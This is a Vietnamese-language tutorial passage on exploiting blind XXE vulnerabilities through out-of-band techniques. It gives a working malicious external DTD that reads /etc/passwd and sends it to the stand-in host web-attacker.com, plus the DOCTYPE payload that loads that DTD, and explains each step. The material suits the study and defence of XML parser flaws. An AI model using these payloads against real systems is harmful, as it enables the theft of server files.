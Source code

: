 

Phát hiện một lỗ hổng XXE blind thông qua các kỹ thuật out-of-band là rất tốt, nhưng nó không thực sự chỉ ra cách lỗ hổng có thể được khai thác. Điều mà một attacker thực sự muốn đạt được là truyền tải dữ liệu nhạy cảm. Điều này có thể được thực hiện thông qua lỗ hổng XXE mù, nhưng nó bao gồm kẻ tấn công chứa một DTD độc hại trên một hệ thống mà họ kiểm soát, sau đó triệu gọi DTD bên ngoài từ trong tải XXE trong-band.

Dưới đây là một ví dụ về DTD độc hại để truyền tải nội dung của tập tin /etc/passwd:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

DTD này thực hiện các bước sau:

- Xác định một entity XML parameter có tên `file`, chứa nội dung của tập tin `/etc/passwd`.

- Xác định một entity XML parameter có tên `eval`, chứa một khai báo động của một entity XML parameter khác có tên `exfiltrate`. Entity `exfiltrate` sẽ được đánh giá bằng cách thực hiện một yêu cầu HTTP đến máy chủ web của attacker, chứa giá trị của entity file trong chuỗi truy vấn URL.

- Sử dụng entity `eval`, làm cho khai báo động của entity `exfiltrate` được thực hiện.

- Sử dụng entity `exfiltrate`, để giá trị của nó được đánh giá bằng cách yêu cầu URL đã chỉ định.

Attacker công sau đó phải chứa DTD độc hại trên một hệ thống mà họ kiểm soát, thông thường là bằng cách tải nó lên máy chủ web của riêng mình. Ví dụ, attacker có thể cung cấp DTD độc hại theo đường dẫn URL sau:

`http://web-attacker.com/malicious.dtd`

Cuối cùng, attacker phải gửi tải XXE sau đây đến ứng dụng có lỗ hổng:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Tải XXE này khai báo một entity XML parameter có tên `xxe` và sau đó sử dụng entity trong DTD. Điều này sẽ khiến trình phân tích XML truy xuất DTD bên ngoài từ máy chủ của attacker và giải thích nó trực tiếp. Các bước được xác định trong DTD độc hại sau đó được thực hiện, và tập tin `/etc/passwd` được truyền tải đến máy chủ của kẻ tấn công.
